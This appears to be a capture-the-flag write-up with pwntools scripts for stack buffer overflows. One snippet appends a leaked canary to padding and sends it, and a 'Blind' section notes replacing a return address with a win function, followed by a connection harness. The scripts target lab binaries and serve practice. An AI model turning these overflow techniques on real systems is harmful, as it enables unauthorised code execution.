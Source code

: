 ```
print("____________________________________")
print(res)

le = p64(int(CANARY, 16))
be = p64(int(CANARY, 16), endianness="big")
payload = b"A" * BUFF_SIZE + be
print(f"Sending payload: {payload}")

io.sendline(payload)
res = io.recvlines(1)
print(res)
io.interactive()
```

Blind
===========================

this is the ret addr to:
0x0000000000401215
x/10xg $rbp
We just need to replace the return address with the function call

-------------------------------------

Script/Command used
------------------

```
from pwn import *


PROGRAM_PATH = (Path(__file__).parent / "blind").resolve().__str__()
BUFF_SIZE = 0x40 + 8
# now ADD eight bytes for the return address

# BUFF_SIZE = 0x88
# CANARY = 123456789
win_addr = 0x401196

gdb_script = """
b *main
b *vuln+42
b *vuln+54
c
"""


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")


# TODO: Add the ip address here later!
def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
res = io.recvlines(1)
print("____________________________________")
```